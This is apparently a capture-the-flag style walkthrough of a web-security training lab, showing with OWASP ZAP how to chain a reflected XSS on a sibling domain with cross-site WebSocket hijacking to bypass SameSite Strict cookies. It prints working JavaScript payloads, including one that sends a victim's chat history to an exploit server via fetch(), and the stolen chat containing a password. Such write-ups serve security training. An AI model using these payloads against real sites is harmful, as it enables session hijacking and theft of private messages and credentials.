

# Lab: SameSite Strict bypass via sibling domain [OWASP Zed Attack Proxy]

> NOTE: Well, this was difficult to set up. I really got the taste of what people pay for when they pay for Burp Suite Pro. WebSockets didn't work with Firefox at all, __no matter what I did__, I installed and reinstalled certificates, configured proxy in a million different ways, with PAC, without PAC, manually, with FoxyProxy extension. Then decided to use Chrome, but Chrome's web driver that comes with ZAP didn't work. So excruciating hours later I figured out that there is one at `/bin/chromedriver` and I could use that one. It finally worked.

In ZAP's browser navigate to Live Chat and send a couple of messages. Under __History__ tab find `GET /chat` request with `Upgrade: websocket` header. Notice that it doesn't have any unpredictable tokens, which suggests it might be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions. 

Refresh the Live Chat page and go to __WebSockets__ tab in ZAP. Notice that when you refresh the page, the browser sends a `READY` message to the server, followed by server responses with the entire chat history:



> NOTE: We will use the exploit server in the lab to exfiltrate information instead of webhooks and such. 

In ZAP's browser session, go to the exploit server, make a note of the exploit server's URL. Create the following template and paste it in the "Body" section of the exploit server form:

```
<script>
    var ws = new WebSocket("wss://YOUR-LAB-ID.web-security-academy.net/chat");
    ws.onopen = function (event) {
        ws.send("READY");
    };
    ws.onmessage = function (event) {
        var message = event.data;
        fetch("https://exploit-YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit?message=" + btoa(message));
    };
</script>
```

Click "Store" and then "View exploit". From exploit server page click "Access Log" and notice a `GET` request to your exploit server's `/exploit` page with `message` query parameter and a value in `base64` encoding. Go to `cyberchef.io` and decode it:

```
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

This means you've opened a new live chat connection with the target site, however it only exfiltrated the chat history for a brand new session, which isn't particularly useful. Go to __History__ tab in ZAP and find the WebSocket handshake (`GET /chat`) request triggered by your script. There is no session cookie included with this request. A session cookie in response to this request isn't the same one that you used when you sent messages in the chat. On top of that `SameSite=Strict` is explicitly declared by the website, which prevents the browser from including the session cookie in cross-site requests.

In __History__ tab some responses to `/resources` requests include a header `Access-Control-Allow-Origin` with a URL as a value: `https://cms-YOUR-LAB-ID.web-security-academy.net`. This is a sibling domain. If you visit it, you will discover an additional login form. Use arbitrary credentials and observe that the username is reflected in the response:

```
<p>Invalid username: wiener</p>
```

Try injecting an XSS payload via the `username` parameter, for example `<script>alert(1)</script>`. Notice that `alert(1)` is called, confirming that this is a viable reflected XSS vector.

```
<p>Invalid username: <script>alert(1)</script></p>
```

In __History__ tab find `POST /login` request containing the XSS payload `<script>alert(1)</script>`, right-click it and select "Open in Requester Tab". Click the "Method" dropdown and select `GET` to convert it into an equivalent `GET` request. 

```
GET https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E&password=a
```

Click "Send" to confirm it still receives the same response. It doesn't. ZAP's Requester tab's method change functionality didn't handle URL encoding of the payload very well. URL decode it and send again:

```
GET https://cms-0afe008c03e8c1a681e793c0007a00ca.web-security-academy.net/login?username=%3Cscript%3Ealert(1)%3C/script%3E&password=a HTTP/1.1
```

This way it works and it encodes the script properly too. Copy the entire URL from the GET request and visit it to make sure you get the alert. As this sibling domain is part of the same site, you can use this XSS vector to launch the CSWSH attack without it being mitigated by SameSite restrictions.

Go back to exploit server, copy the contents of "Body" section. Go to ZAP __Tools__ > __Encode/Decode/Hash...__. Paste the payload to be encoded in the input and copy the output under __Full URL Encode__. 

```
%3C%73%63%72%69%70%74%3E%0A%20%20%20%20%76%61%72%20%77%73%20%3D%20%6E%65%77%20%57%65%62%53%6F%63%6B%65%74%28%22%77%73%73%3A%2F%2F%30%61%66%65%30%30%38%63%30%33%65%38%63%31%61%36%38%31%65%37%39%33%63%30%30%30%37%61%30%30%63%61%2E%77%65%62%2D%73%65%63%75%72%69%74%79%2D%61%63%61%64%65%6D%79%2E%6E%65%74%2F%63%68%61%74%22%29%3B%0A%20%20%20%20%77%73%2E%6F%6E%6F%70%65%6E%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%65%76%65%6E%74%29%20%7B%0A%20%20%20%20%20%20%20%20%77%73%2E%73%65%6E%64%28%22%52%45%41%44%59%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20%77%73%2E%6F%6E%6D%65%73%73%61%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%65%76%65%6E%74%29%20%7B%0A%20%20%20%20%20%20%20%20%76%61%72%20%6D%65%73%73%61%67%65%20%3D%20%65%76%65%6E%74%2E%64%61%74%61%3B%0A%20%20%20%20%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3A%2F%2F%65%78%70%6C%6F%69%74%2D%30%61%31%37%30%30%62%64%30%33%37%61%63%31%39%33%38%31%37%34%39%32%36%32%30%31%36%33%30%30%37%31%2E%65%78%70%6C%6F%69%74%2D%73%65%72%76%65%72%2E%6E%65%74%2F%65%78%70%6C%6F%69%74%3F%6D%65%73%73%61%67%65%3D%22%20%2B%20%62%74%6F%61%28%6D%65%73%73%61%67%65%29%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2F%73%63%72%69%70%74%3E
```

In the exploit server's "Body" section create a new payload:

```
<script>
  document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

Make sure to include the URL encoded template from above to replace `YOUR-URL-ENCODED-CSWSH-SCRIPT`. 

Click "Store" and then "View exploit". Go to Access log and observe five `GET` requests to your exploit server with `message` query parameter values encoded in `base64`. Decode them in `cyberchef.io`:

```
{"user":"Hal Pline","content":"Sorry that&apos;s not something I am familiar with; I have a life you know."}
{"user":"You","content":"Test"}
{"user":"You","content":"Another test"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
{"user":"Hal Pline","content":"I didn&apos;t catch that, have you been drinking again?"}
```

Now under __History__ tab, find the `GET /chat` request that was triggered by our exploit.Notice that `session` cookie was included in it. Which means it was initiated from the sibling domain and bypassed SameSite restrictions. 

Go back to exploit server and deliver exploit to victim. Go to Access log and observe five more `GET` requests made by victim's IP with `base64` encoded `message` query parameter values, decode them again. 

```
{"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"}
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"Hal Pline","content":"No problem carlos, it&apos;s [REDACTED]"}
{"user":"You","content":"I forgot my password"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

We received victim's chat on our exploit server. To solve the lab log in to the website as user `carlos` using the password.


